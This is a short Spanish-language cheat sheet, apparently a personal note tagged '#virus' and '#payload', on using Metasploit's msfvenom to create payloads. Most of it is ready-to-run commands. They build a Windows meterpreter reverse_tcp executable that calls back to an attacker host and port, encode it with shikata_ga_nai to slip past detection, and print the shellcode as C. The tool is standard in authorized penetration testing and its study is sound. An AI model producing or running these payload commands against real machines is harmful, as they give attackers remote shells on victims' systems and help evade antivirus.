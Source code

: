 #payload #explotacion #virus #creaciondepayloads

------------
### Guía Básica de `msfvenom`

`msfvenom` es una herramienta de Metasploit Framework utilizada para generar payloads y encoders. Aquí están los comandos más utilizados:

#### 1. **Generar un Payload Básico**

Para generar un payload básico, usa el siguiente formato:

`msfvenom -p [payload] [opciones] -f [formato] -o [nombre_archivo]`

**Ejemplo:**

Para crear un payload de tipo `reverse_tcp` para Windows:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o payload.exe`

- `-p [payload]`: Especifica el tipo de payload.
- `LHOST`: Dirección IP del atacante.
- `LPORT`: Puerto en el que el atacante escuchará.
- `-f [formato]`: Formato del archivo (ej. exe, elf, etc.).
- `-o [nombre_archivo]`: Nombre del archivo de salida.

#### 2. **Listar Payloads Disponibles**

Para ver todos los payloads disponibles:

`msfvenom -l payloads`

#### 3. **Listar Formatos Disponibles**

Para ver todos los formatos de salida disponibles:

`msfvenom -l formats`

#### 4. **Codificar un Payload**

Para codificar un payload con un encoder:

`msfvenom -p [payload] [opciones] -e [encoder] -f [formato] -o [nombre_archivo]`

**Ejemplo:**

Codificar un payload con el encoder `x86/shikata_ga_nai`:


`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -f exe -o encoded_payload.exe`

- `-e [encoder]`: Especifica el encoder a usar.

#### 5. **Ejecutar el Payload en la Consola**

Para ver el payload generado en la consola sin guardarlo en un archivo:


`msfvenom -p [payload] [opciones] -f [formato]`

**Ejemplo:**

Para generar y mostrar un payload `reverse_tcp` en formato hexadecimal:


`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c`

#### 6. **Obtener Ayuda**

Para obtener ayuda sobre los comandos y opciones de `msfvenom`:

`msfvenom -h`